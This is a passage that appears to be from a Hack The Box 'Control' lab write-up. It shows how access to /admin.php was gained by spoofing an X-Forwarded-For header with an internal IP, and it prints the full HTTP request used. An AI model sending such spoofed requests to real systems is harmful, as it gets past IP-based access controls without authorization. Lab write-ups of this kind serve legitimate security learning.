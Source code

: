 ![image.png](/assets/Images/HTB_Control/image%202.png)

### Admin Panel Auth Bypass

For Adding Proxy in the request we can use <mark>X-Forwarded-For</mark> and add the IP so it can be accessible

[X-Forwarded-For header - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For)

We used `X-Forwarded-For` bypassing the Restriction.  

```bash
GET /admin.php HTTP/1.1
Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://control.htb/
Connection: keep-alive
X-Forwarded-For: 192.168.4.28
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

Boom !! It Worked!.
